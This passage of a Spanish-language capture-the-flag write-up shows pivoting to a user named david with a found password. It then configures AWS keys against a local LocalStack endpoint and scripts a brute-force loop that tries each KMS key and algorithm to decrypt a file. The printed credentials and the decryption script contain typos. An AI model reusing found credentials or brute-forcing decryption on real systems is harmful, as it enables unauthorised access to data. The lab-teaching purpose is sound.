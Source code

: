Aqui podemos ver credenciales y como el usuario **david** esta en el systema intentamos con la credencial encontrada

```bash
su david
Password: EALB=bcC=`a7f2#k
```

Ya hemos podido pivotar al usuario **david** y vemos que en su directorio tiene un proyecto con un fichero encodeado. Vamos a intentar decodearlo con
**aws**.

```bash
cd Projects/Prod_Deployment
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys


aws configure

AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: eu
Default option format [None]:

aws --endpoint-url="http://127.0.0.1:4566" kms list-keys
```

Si miramos la funccionalidad de decrypt del aws, vemos que necessitamos una key_id para desencryptar un fichero.

```bash
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid"
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}'
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}' | tr -d '"'
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}' | tr -d '"' | tr -d ','
```

Vamos a crear otro script para desencryptar el fichero.

```bash
touch decryptor.sh
chmod +x !$
nano decryptor.sh


#!/bin/bash

declare -a algorithms=(SYMMETRIC_DEFAULT RSAES_OAEP_SHA_1 RSAES_OAEP_SHA_256)

for algo in "${algorithms[@]}"; do
    aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep -i "keyid" | awk 'NF{print $NF}' | tr -d '"' | tr -d ',' | while read key_id; do
        echo -e "\n[+] Probando con el algoritmo $algo la key $key_id:\n"
        aws --endopoint="http://127.0.0.1:4566 kms decrypt --encryption-algorithm $algo --ciphertext-blob fileb:///home/david/Projects/Prod_Deployement/servers.enc --key-id "$key_id"
    done
done
```
